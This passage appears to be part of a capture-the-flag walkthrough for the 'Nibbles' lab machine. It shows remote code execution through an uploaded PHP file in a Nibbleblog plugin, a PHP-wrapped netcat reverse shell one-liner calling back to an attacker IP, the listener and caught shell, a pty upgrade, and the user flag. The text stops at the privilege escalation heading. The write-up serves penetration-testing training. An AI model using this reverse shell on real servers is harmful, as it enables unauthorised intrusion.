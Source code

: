 ```
-[Wed Feb 14-10:03:43]-[table@parrot]-
-[~]$ curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We have gained remote code execution on the web server, and the Apache server is running in the `nibbler` user context

We can now modify our PHP file to obtain a reverse shell and start poking around the server.

* Let us use the following `Bash` reverse shell one-liner and add it to our `PHP` script.

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9443 >/tmp/f"); ?> 
```

We upload the file again and start a `netcat` listener in our terminal:

```
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```

`cURL` the image page again or browse to it in `Firefox` at http://nibbleblog/content/private/plugins/my\_image/image.php to execute the reverse shell.

```
-[Wed Feb 14-10:12:49]-[table@parrot]-
-[~]$ nc -lnvp 9443
listening on [any] 9443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.75] 57830
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Let's upgrade our shell to a "nicer" shell:

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler
<ml/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler            
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
```

Retrieve user flag:

```
nibbler@Nibbles:/home/nibbler$ cat user.txt	
```

***

## Privilege Escalation
